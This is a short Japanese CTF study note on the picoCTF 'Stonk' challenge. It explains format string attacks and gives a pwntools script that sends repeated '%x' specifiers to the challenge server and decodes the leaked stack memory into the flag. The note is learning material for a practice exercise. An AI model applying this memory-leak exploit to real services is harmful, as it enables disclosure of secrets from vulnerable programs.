 :doctype: book
:toc:
:toc-title: 目次
// :sectnums:
:chapter-label:
:source-highlighter: coderay
:icons: font
:stem:
:author: Cassin01
:tag: {CTF, note}


Tag: {tag}

= pecoCTFのメモ

解答というよりはpecoCTFを通じて学んだことのメモ.

== Stonk

=== format string attack

`printf(buf)` に `%08x`, `%x` 等を埋め込む

- `%08x`: 8桁の16進数を出力
- `%x`: 整数を16進数で出力

link:++https://tech.kusuwada.com/entry/2021/04/08/121247++[解答]

[source,python]
----
from pwn import *
import binascii

host = 'mercury.picoctf.net'
port = 59616

attack_msg = b'%x' * 150
r = remote(host, port)
r.recvuntil(b'2) View my portfolio\n')
r.sendline(b'1')
r.recvuntil(b'What is your API token?\n')
r.sendline(attack_msg)
res = r.recvuntil(b'Portfolio as of')[30:200]
encoded = binascii.unhexlify(res)
for i in range(len(encoded)//4):
    for c in encoded[i*4:i*4+4][::-1]:
        try:
            print(chr(c), end='')
        except:
            continue
----
